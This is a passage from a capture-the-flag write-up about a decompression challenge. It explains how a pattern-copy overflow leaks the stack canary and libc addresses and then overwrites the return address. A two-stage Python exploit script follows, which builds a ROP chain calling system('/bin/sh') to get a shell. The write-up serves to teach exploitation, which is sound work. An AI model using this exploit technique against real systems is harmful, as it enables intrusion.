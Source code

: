 Note that, to leak multiple values, we have to take into account the amount of bytes we have already written, as the index of the array moves with them.

## Second Stage and Shell

Ok, we can leak things from the stack, but how do we overwrite the ret address while keeping the canary intact? We can use the overflow in the pattern copy snippet.

After writing the leaks to the output array, we can use them as pattern! So we can start copying the values lots of times, until we reach the canary and the ret addr.

I noticed that the stack has a pointer to start(), so we can leak that and then use it as a ret address.

It's all about alignment of the leaks at this point. 
In the second stage we do pretty much the same except we insert our rop as normal bytes and then we start copying it lots of times until we overwrite ret addr.

Remember, we have to use the pattern copy because the normal byte insertion is checked for overflows.

My payload was getting real messy so I implemented a class to help me exploit.

This also allows me to better show the logic in the exploitation: 

```python
# STAGE 1: OBTAINING LEAKS AND CALLING MAIN AGAIN
# alignment for canary to end up on right place after cycle
beginpad = 8*2
middlepad = 0x20
stage1 = DecompressXploiter()
stage1.pad(beginpad)
stage1.leak(canary_offset) # has to end on canary
stage1.pad(middlepad) # between canary and ret addr: 5 words
stage1.leak(mainret_offset)
stage1.leak(start_offset) # has to end on ret addr
stage1.cycle(beginpad, 0x1000)
canary, mainret, start = stage1(io)
libc.address = mainret - 243 - libc.sym.__libc_start_main

# STAGE 2: SYSTEM BINSH ROP
rop = ROP(libc)
rop.call(rop.ret)
rop.call('system', [next(libc.search(b'/bin/sh'))])

beginpad = 8*3
middlepad = 8*5
stage2 = DecompressXploiter()
stage2.pad(beginpad)
stage2.add(p64(canary)) # has to end on canary
stage2.pad(middlepad) # between canary and ret addr: 5 words
stage2.add(rop.chain()) # has to end on ret addr
stage2.cycle(beginpad, 0x1000)
stage2(io) # get shell CTF{lz77_0r1ent3d_pr0gr4mming}
```
